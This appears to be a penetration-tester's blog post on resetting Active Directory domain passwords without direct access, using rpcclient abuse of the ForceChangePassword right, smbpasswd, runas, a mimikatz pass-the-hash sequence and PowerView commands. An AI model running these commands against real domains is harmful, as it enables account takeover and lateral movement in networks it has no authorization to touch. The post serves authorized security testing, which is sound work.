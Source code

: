 [back](/)

![Image](/img/hat.jpg)

### Your password has expired

During penetration testing Active Directory you often encounter the need to change the password for domain users. How to do this if you do not have direct access to control? for example by winrm, rdp or wmi.

Here are some useful examples that I've collected as a result of my work:

Example 1: you have a domain user whose password has expired (or a temporary password has been set), in which case you will not be able to connect under the current user due to NLA (Network Level Authentication). By using the NetApi32 function you can easily change the password without a direct connection, in this article you will find the script: https://hinchley.net/articles/changing-your-expired-active-directory-password-via-powershell/

Example 2: you have a domain user with the "ForceChangePassword" attribute, in which case you do not need to know the current user's password and you can use the rpcclient utility as follows:

```
setuserinfo2 yourusername 23 'yourpassword'
```

![Image](/img/domain-user-password/1.png)
![Image](/img/domain-user-password/2.png)

![Image](/img/domain-user-password/3.png)

Example 3: you have a domain user with an expired password and access to the smb service, then you can change the password using smbpasswd like this:

```
smbpasswd -r HOST -U yourusername
```

Also, if you have an active account in the domain, you can run commands from the cmd/powershell console:

```
runas / netonly /U:yourusername@yourdomain powershell
```

this way you will open a session as a domain user

![Image](/img/domain-user-password/5.png)

or using mimikatz having previously generated the NTLM hash:

```
echo -n "password" | iconv -t UTF-16LE | openssl md4
privilege :: debug
token :: elevate
pth /user:yourusername /domain:yourdomain / ntlm: NTLM /run:"powershell.exe"
```

![Image](/img/domain-user-password/4.png)

Then, in an open session use PowerView.ps1 (if you need to change the password using the previous one)

```
$ SecPassword = ConvertTo-SecureString 'yourpassword' -AsPlainText -Force
$ Cred = New-Object System.Management.Automation.PSCredential ('yourdomain\yourusername', $SecPassword)
$ UserPassword = ConvertTo-SecureString 'yourpassword' -AsPlainText -Force
Set-DomainUserPassword -Identity yourusername -AccountPassword $UserPassword -Credential $Cred
```

or (if you need to change the password without knowing the previous one, if the ForceChangePassword attribute is present)

```
$pw = Convertto-securestring 'yourpassword' -asplaintext -force
Set-DomainUserPassword -Domain yourdomain -Identity 'CN=yourusername,CN=Users,DC=yourdomain,DC=yourdomain' -accountpassword $pw
```

<div id="disqus_thread"></div>
<script>
(function() { // DON'T EDIT BELOW THIS LINE
var d = document, s = d.createElement('script');
s.src = 'https://hackitfaster-hopto-org.disqus.com/embed.js';
s.setAttribute('data-timestamp', +new Date());
(d.head || d.body).appendChild(s);
})();
</script>
<noscript>Please enable JavaScript to view the <a href="https://disqus.com/?ref_noscript">comments powered by Disqus.</a></noscript>

[back](/)


